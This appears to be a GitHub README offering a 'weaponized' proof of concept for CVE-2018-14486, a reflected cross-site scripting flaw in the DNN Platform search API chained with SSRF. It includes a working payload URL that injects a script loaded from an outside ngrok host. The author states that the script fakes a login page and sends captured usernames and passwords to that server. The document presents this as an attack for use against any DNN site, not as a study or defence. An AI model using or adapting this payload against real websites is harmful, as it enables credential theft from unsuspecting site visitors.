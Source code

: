 ﻿**Please note that this works on all DNN websites, it is a no-fix vulnerability that was never patched. This is a proof of concept that can be used to chain together SSRF and XSS on any DNN website.
The XSS Payload replicates a login page, listens to the username and password fields and once the button is pressed, it will send a fetch request to our ngrok server with the username and password.**


## Remote XSS in DNN Platform
### CVE-2018-14486 (I do not own this CVE)
* [CVE-2018-14486](https://nvd.nist.gov/vuln/detail/CVE-2018-14486) - I take no credit for this CVE, while I did find it in a similar way, I only weaponized and leveraged it differently. Credits go to initial security researcher.
#### Description
DNN Platform is an open source .NET CMS and the DNN CMS Platform is a well-known CMS system based on .NET. The DNN CMS Platform has a no-fix exploit from 2018 they never fixed allowing us to use their search API to reflect contents of it on a remote website.

#### Vulnerability Type
Cross Site Scripting (XSS)

#### Vendor of Product
DNN Corp.

#### Affected Product Code Base
All DNN Products

#### Affected Component
DotNetNuke Core

#### Attack Type
Remote

#### Proof of Concept
Leveraging SSRF on another website, I can chain together XSS on the DNN Platform. The following is a proof of concept that will reflect Message back onto the SSRF Vulnerable website.

```html
https://www.dnnvictimsite.com/API/internalservices/searchService/search?search=\'"<ScRiPt src="https://asdasd.ngrok.io/xss.js"/>
```

>[!note]
> Leveraging this method allows us to reflect and abuse the vulnerability on all vulnerable SSRF websites.